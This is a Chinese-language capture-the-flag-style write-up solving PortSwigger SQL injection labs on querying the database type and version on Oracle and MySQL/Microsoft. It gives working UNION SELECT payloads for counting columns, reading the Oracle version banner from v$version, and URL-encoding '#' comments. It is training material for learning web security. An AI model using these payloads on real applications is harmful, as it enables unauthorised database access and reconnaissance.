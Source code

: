 | Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/examining-the-database#querying-the-database-type-and-version |
| Lab       | https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle   |

題目給的 Hint 很重要:

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

先嘗試用 `UNION SELECT NULL FROM dual--` 來判斷前面的 `SELECT` 選了幾個 columns

```
?category=Accessories' UNION SELECT NULL FROM dual--
?category=Accessories' UNION SELECT NULL,NULL FROM dual--
```

Payload

```
?category=Accessories' UNION SELECT banner,NULL FROM v$version--
```

SQL

```sql
SELECT ... FROM products WHERE category = 'Accessories' UNION SELECT banner,NULL FROM v$version--'
```

## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/examining-the-database#querying-the-database-type-and-version        |
| Lab       | https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft |

這題稍微卡了一下，主要的卡點有兩個

1. comment 格式，可參考 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet#comments)，最終得出需使用 `#comment` 的格式，才可以滿足 MySQL and Microsoft
2. `#` 是 URL hash，所以需使用 `encodeURLComponent` 才能塞到 querystring

先嘗試用 `UNION SELECT NULL #` 來判斷前面的 `SELECT` 選了幾個 columns

```
?category=Lifestyle' UNION SELECT NULL#
?category=Lifestyle' UNION SELECT NULL,NULL#
```

記得放到網址的時候要使用 JS 的 `encodeURIComponent` 去做轉換

```js
encodeURIComponent("Lifestyle' UNION SELECT NULL#");
("Lifestyle'%20UNION%20SELECT%20NULL%23");

encodeURIComponent("Lifestyle' UNION SELECT NULL,NULL#");
("Lifestyle'%20UNION%20SELECT%20NULL%2CNULL%23");
```
